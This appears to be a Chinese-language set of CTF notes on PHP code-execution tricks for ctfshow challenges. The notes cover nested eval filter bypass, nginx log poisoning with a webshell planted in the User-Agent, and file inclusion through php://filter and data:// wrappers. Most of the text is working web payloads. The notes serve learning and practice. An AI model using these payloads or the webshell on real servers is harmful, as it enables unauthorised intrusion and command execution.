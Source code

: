 
#### 嵌套eval

因为eval()的作用相当于把其参数拼接到代码中去，由此可构造嵌套eval逃逸过滤

```php
如 eval($_GET['code']);
若传入?code=eval($_GET[1]);&1=phpinfo();
则:
源码为 eval(eval($_GET[1]); 
而1又为 phpifno();     
那么最终拼接进源码的就是1的值phpinfo();
```



#### 日志包含拿shell

下面用的是nginx的日志文件路径：/var/log/nginx/access.log

```php
user_agent：<?php eval($_post[1]);?>
然后：
include($_GET[1]);&1=/var/log/nginx/access.log
```

**ps：日志包含尽量一次成功，不然错误代码会影响后面代码解析**
		**可以在本地试一下再传**



#### 文件包含+伪协议->代码执行

文件包含函数：require()、include()等

常用伪协议：php://filter、glob://、data:txt/plain,xxx等

> ctfshow 32、33
>
> ```
> // ;被ban使用?>进行闭合 (php格式：<?php ?>)，再进行传参：
> 
> web32payload：
> 
> ?c=include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
> 
> web33payload：
> 
> ?c=require%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
> ```
>
> ctfshow 39
>
> ```php
> if(!preg_match("/flag/i",$c))
> {
> 	include($c.".php")
> }
> ```
>
> payload：
> `data:text/plain,<?php system('cat *');?>`
>
> 利用文件包含+伪协议，解析php语句，因为前面的php语句已经闭合了，
> `.php`不会被include()解析，而是会被当成html直接显示到页面上
>
> 如传入`?c=data://text/plain,<?=phpinfo();?>`,执行命令后会在末尾输出1.php

